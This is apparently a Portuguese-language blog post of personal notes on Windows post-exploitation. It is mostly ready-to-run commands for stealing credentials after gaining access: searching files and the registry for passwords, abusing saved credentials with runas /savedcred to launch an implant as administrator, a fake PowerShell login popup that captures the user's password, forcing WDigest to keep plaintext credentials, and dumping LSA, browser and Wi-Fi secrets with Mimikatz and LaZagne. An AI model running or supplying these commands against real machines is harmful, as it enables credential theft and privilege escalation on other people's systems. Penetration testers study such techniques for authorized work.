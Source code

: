 ```yaml
---
layout: post
title: windows post-exp
date: 2025-04-30
description: windows local post-exp
categories: windows
---
```




## Windows Desktop/Workstation Host Post-Exp
> ___

Post-Exp locamente, no contexto de estar sob controle de uma maquina (com shell ou logado com creds). Depois do acesso você precisa fazer recon localmente e seguir com a exploração para escalar privilégio.

- https://attack.mitre.org/techniques/T1087/001/


## Recon Stuff
> ___

- LPE https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html

- cmd commands https://book.hacktricks.wiki/en/windows-hardening/basic-cmd-for-pentesters.html

- ps commands https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/index.html



## Pegando passwords em cleartext 
> ___


#### Procurando senhas em plaintext

- lista todos os diretorios a partir do c:\
- ``` C:\> dir /b /a /s c:\ > output.txt ```
  - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- Filtra por arquivos com nome "passw"
- ``` C:\> type output.txt | findstr /i passw ```

- No PS
- ``` get-childitem -path c:\ -recurse -force | select-object -expandproperty fullname > output.txt```

https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir#examples


#### Nomes e Extenções de arquivos interessantes para verificar

- Extenções: install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .conf, ,ini, .xml, .txt, .gpg, .pgp, .p12, .der, .crs, .cer, id_rsa, id_dsa, .ovpn, vnc,
ftp, ssh, vpn, git, .kdbx, .db

- Arquivos: unattend.xml, Unattended.xml, sysprep.inf, sysprep.xml, VARIABLES.DAT, setupinfo, setupinfo.bak, web.config, SiteList.xml, .aws\credentials, .azure\accessTokens,json, .azure\azureProfile.json, gcloud\credentials.db, gcloud\legacy_credentials, gcloud\access_tokens.db

- ``` C:\> type output.txt | findstr /i algumas extenção ```



#### Arquivos nos Registries 

- ``` reg query HKLM /f password /t REG_SZ /s ```


- ``` reg query "HKCU\Software\ORL\WinVNC3\Passowrd" ```
 
- ``` reg query "HKCU\Software\TightVNC\Server" ```

- ``` reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" ```

- ``` reg query "HKCU\Software\SimonTatham\PuTTY\Sessions\local" ```



#### Abusing Credential Manager

- Credential Manager
  - O Credential Manager é uma espécie de cofre digital dentro do sistema Windows. O Windows armazena credenciais de registry, como usernames e senhas...

- Do ponto de vista do invasor, geralmente você não tem acesso a uma GUI... Então você usa a linha de comando. Na linha de comando existe uma ferramenta chamada "cmdkey".

  - O cmdkey também permite listar essas informações.
    - ``` C:\> cmdkey /list ```

- Podemos acessar o diretório inicial do administrador e executar processos como administrador:
  - ``` C:\> runas /user:administrator cmd.exe``` <===== precisa de admin pass

  - ``` C:\> runas /savedcred /user:administrator cmd.exe ```
    - windows vai até Credential Manager, verifica o usuário admin (consulta o banco de dados), extrai a senha do usuário admin e executa o processo. (execute como administrador com integrity level medium)

- Podemos listar todos os diretórios aos quais não temos acesso.
  - ``` C:\> runas /savedcred /user:administrator "c:\windows\system32\cmd.exe /c dir /b /a /s c:\users\administrator > c:\output-admin.txt" ```
    - em um cenário real você faz download do arquivo para a attack machine e analisa "offline"

- Também podemos usar esse comando para rodar um implant:
  - ``` C:\> runas /savedcred /user:administrator "c:\path\to\implant.exe" ```


#### Popup local para pegar as creds de um user

- Cria um popup que pede a senha do usuário atual

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::Username,[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'CHANGE THIS WITH OTHER USERNAME',[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```


#### Forçando o WDigest a armazenar credenciais em plaintext

Como parte do WDigest authentication provider, as versões do Windows até 8 e 2012 costumavam armazenar credenciais de logon na memória em plaintext por padrão, o que não é mais o caso com versões mais recentes do Windows. 

Mas ainda é possível forçar o WDigest a armazenar os secrets em plaintext.


Então como fazer isso? A opção mais fácil é definir a resgistry key para colocar o senhas de volta no LSASS. Dentro do HKLM existe uma config  ```UseLogonCredential``` que, se definido como 0, armazenará as credenciais de volta na memória:

- ```reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 ```

- Pelo Empire pode ser assim:
```shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDige /v UseLogonCredential /t REG_DWORD /d 1 f```


O problema com esta configuração é que precisaremos que o usuário faça login novamente no sistema. Você pode forçar lock-screen, reboot ou logoff, para poder capturar credenciais em clear text. A maneira mais fácil é bloquear sua estação de trabalho:

- ```rundll32.exe user32.dll,LockWorkStation```

Depois de ativar a tela de bloqueio e fazer com que o alvo façam login novamente, podemos executar o Mimikatz e recuperar as senhas.

- ```sekurlsa::logonpasswords```


REFS: 
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext
- https://github.com/gentilkiwi/mimikatz/wiki


#### Scripts para recon e para extrait passwords da memória, navegadores e etc:

```mimikatz # dpapi::chrome /in:"C:\Users\USERNAME\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect```

```mimikatz.exe "token::elevate" "lsadump::secrets" exit```

- wifi pass ```netsh wlan show profile name=ESSID key=clear```

- Chrome, FireFox, Opera e mais https://github.com/AlessandroZ/LaZagne
  - ```Lazagne.exe browsers -firefox```
  - ```python firefox_decrypt.py C:\Users\USERNAME\AppData\Roaming\Mozilla\FireFox\Profiles\random-val.default```
  - ```Lazagne.exe wifi```
  - ```Lazagne.exe all```

- Mimikittenz (https://github.com/putterpanda/mimikittenz)

- Web Creds: https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1

- Windows Credentials: https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1

- Browser Data https://github.com/LimerBoy/Adamantium-Thief
  - https://github.com/moonD4rk/HackBrowserData

- histórico e cookies do navegador: https://github.com/sekirkity/BrowserGather 

- A tool SessionGopher (https://github.com/fireeye/SessionGopher) pode pegar hostnames e senhas salvas do WinSCP, PuTTY, SuperPuTTY, FileZilla, e Microsoft Remote Desktop.


#### Conforme eu for achando e testando tecnicas e tools novas vou atualizar aqui.

